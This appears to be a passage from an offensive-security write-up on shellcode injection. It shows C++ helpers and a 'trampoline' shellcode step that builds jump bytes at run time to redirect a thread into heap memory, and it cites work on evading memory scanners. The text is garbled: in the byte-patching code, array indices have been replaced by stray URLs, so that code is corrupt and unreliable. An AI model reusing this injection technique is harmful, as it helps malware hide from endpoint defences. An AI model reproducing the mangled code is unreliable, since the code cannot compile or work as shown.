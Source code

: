 ```cpp
}

VOID _Hton(ULONG64 value, UCHAR* result, UINT start)
{
    result[start] = value & 0x00000000000000ff;
    result[start + 1] = (value & 0x000000000000ff00) >> 8;
    result[start + 2] = (value & 0x0000000000ff0000) >> 16;
    result[start + 3] = (value & 0x00000000ff000000) >> 24;
    result[start + 4] = (value & 0x000000ff00000000) >> 32;
    result[start + 5] = (value & 0x0000ff0000000000) >> 40;
    result[start + 6] = (value & 0x00ff000000000000) >> 48;
    result[start + 7] = (value & 0xff00000000000000) >> 56;
}

BOOL Finished(UINT x[]) {
    UINT aLength = sizeof(x);
    UINT count = 0;
    
    for (int i = 0; i < aLength; i++) {
        if (x[i] >= 1) {
            count++;
        }
    }
    return count == aLength;
}
```




###### Shellcode 2 - Trampoline

This trampoline shellcode is needed just as a fake start address for our new thread, if that's not clear
immediately, it will be during the demo. The key point to remember is that this trampoline will be overwritten 
by the "restore" shellcode, while the real shellcode, copied on the heap, won't.

```asm
mov r15, <ADDRESS-OF-HEAP-RX-MEMORY>
jmp r15
```

This "trampoline", however, can't be assembled before-hand, as we need to know the address of the RX memory
region, that would be allocated at runtime. To solve the problem, we generate the shellcode in real time. 

```
UCHAR patch(https://offensivedefence.co.uk/posts/module-stomping/) = { 0 };
// mov r15, <address>
patch[0] = 0x49;
patch(https://github.com/klezVirus/inceptor.git) = 0xBF;
// Hton Trampoline Address
patch(https://github.com/Idov31/FunctionStomping) = target & 0x00000000000000ff;
patch(https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/) = (target & 0x000000000000ff00) >> 8;
patch(https://github.com/Idov31/FunctionStomping) = (target & 0x0000000000ff0000) >> 16;
patch(https://twitter.com/Idov31) = (target & 0x00000000ff000000) >> 24;
patch(https://twitter.com/hasherezade) = (target & 0x000000ff00000000) >> 32;
patch(https://twitter.com/modexpblog) = (target & 0x0000ff0000000000) >> 40;
patch(https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/) = (target & 0x00ff000000000000) >> 48;
patch(https://twitter.com/waldoirc) = (target & 0xff00000000000000) >> 56;
// jmp r15
patch(https://github.com/waldo-irc/YouMayPasser/) = 0x41;
patch(https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/) = 0xFF;
```
